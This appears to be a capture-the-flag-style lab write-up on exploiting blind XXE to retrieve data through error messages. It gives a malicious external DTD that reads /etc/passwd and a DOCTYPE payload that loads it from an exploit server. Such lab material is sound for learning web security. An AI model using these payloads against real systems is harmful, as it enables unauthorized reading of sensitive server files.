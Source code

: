 # Lab: Exploiting blind XXE to retrieve data via error messages

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a11f5b41-b0aa-4f6e-9b3c-55c8f3650f36)

## Solution

The application has a product stock check endpoint.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/0eb3787c-a9c5-4c98-903d-39079ce0220e)

The application checks for the stock level of a product by submitting XML to the server.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/13767e0b-bece-4f55-b100-1d1c4362405a)

Go to exploit server and save the following malicious DTD file on your server in the body section and click **"Store"**.

```XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/e8379344-d335-44a4-8535-afbd6e7130a9)

Click on **"View exploit"** to view the exploit ourselves and note the URL.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/e7264b04-5aab-46f9-904f-1c4e0c2a8791)

Insert the following external entity definition in between the XML declaration and the `stockCheck` element and resubmit the request.

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`

An error message containing the contents of the /etc/passwd file will be in the response.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/46569179-952a-425b-8691-cadb6239e153)

Getting the `passwd` file solves the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/3fe9dd9d-d683-44fc-8eb6-9d75ad000431)
